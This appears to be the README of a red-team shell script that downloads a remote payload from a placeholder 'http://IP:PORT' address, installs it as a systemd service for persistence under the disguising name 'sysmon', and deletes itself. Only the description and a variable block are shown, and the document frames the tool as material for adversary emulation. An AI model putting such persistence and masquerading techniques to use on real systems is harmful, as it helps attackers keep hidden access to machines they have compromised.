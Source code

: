 # service.sh
This script automates the download of a remote payload, creation and setup of a systemd service for persistance: ([T1543.002](https://attack.mitre.org/techniques/T1543/002/))

The script self-deletes after successful execution.

Used for adversary emulation and red teaming activities.

# Replace these variables with your specific values
```shell
BINARY_NAME="sysmon"
BINARY_URL="http://IP:PORT/sysmon"
INSTALL_PATH="/usr/local/bin/${BINARY_NAME}"
```
